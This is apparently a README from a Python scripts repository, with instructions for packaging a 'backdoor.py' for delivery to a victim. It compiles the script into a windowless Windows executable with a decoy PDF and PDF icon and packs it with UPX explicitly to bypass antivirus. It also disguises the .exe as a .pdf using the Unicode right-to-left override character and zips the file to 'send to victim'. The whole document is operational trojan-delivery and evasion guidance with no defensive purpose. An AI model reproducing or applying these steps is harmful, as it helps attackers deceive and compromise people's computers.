 # Python Scripts
A Collection of Python Scripts.

## Packaging

### Common
- Search pdf in [IconFinder](https://www.iconfinder.com/) to create an icon (Free, 512\*512, .ico)
- To bypass AntiVirus, use [UPX](https://github.com/upx/upx/releases) to compress exe file: ```./upx /root/PycharmProjects/backdoor/dist/backdoor.exe -o compressed_bacdoor.exe```
- Change the file extension:
  - Install Characters 3.34.0: ```apt install gnome-characters```
  - Search for 'Right-to-left Override' in 'Characters' tool in Kali
  - Select 'Copy Character' to copy 'Unicode U+202E' to clipboard
  - Open notepad and write 'al\*fdp.exe' then paste in the place of star
  - Rename the file to 'alexe.pdf'
- Zip the pdf file to hide the exe extension and send to victim

### Windows
- Install pyinstaller for python: ```python.exe -m pip install pyinstaller```
- Convert to exe: ```pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```

### Linux
- Install python for Windows inside Linux: ```wine msiexec /i python-2.7.14.msi```
- Install pyinstaller for python: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller```
- Install all imported library: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pynput```
- Convert to exe: ```wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```
